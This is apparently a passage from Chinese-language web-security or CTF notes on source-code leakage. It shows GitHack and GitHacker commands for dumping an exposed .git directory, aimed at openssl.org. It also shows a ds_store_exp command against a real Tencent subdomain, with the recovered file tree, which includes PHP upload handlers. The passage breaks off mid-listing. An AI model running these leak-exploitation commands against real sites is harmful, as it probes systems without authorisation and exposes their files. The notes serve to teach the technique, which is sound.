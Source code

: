 [GitHack](https://github.com/lijiejie/GitHack)

```shell
python GitHack.py http://www.openssl.org/.git/
```

[GitHacker（可恢復完整 Git 倉庫）](https://github.com/WangYihang/GitHacker)

```shell
python GitHacker.py http://www.openssl.org/.git/
```

### `.DS_Store` 文件泄露

Mac OS 中會包含有 `.DS_Store` 文件，包含文件名等信息。

[利用工具 ds\_store\_exp](https://github.com/lijiejie/ds_store_exp)

```shell
python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
        │       ├── ico-right-top-delete.png
        │       ├── page-login-hd.png
        │       ├── pic-masker.png
        │       └── ticket-selected.png
        └── member
            ├── assets
            │   ├── css
            │   │   ├── ace-reset.css
            │   │   └── antd.css
            │   └── lib
            │       ├── cityData.min.js
            │       └── ueditor
            │           ├── index.html
            │           ├── lang
            │           │   └── zh-cn
            │           │       ├── images
            │           │       │   ├── copy.png
            │           │       │   ├── localimage.png
            │           │       │   ├── music.png
            │           │       │   └── upload.png
            │           │       └── zh-cn.js
            │           ├── php
            │           │   ├── action_crawler.php
            │           │   ├── action_list.php
            │           │   ├── action_upload.php
            │           │   ├── config.json
```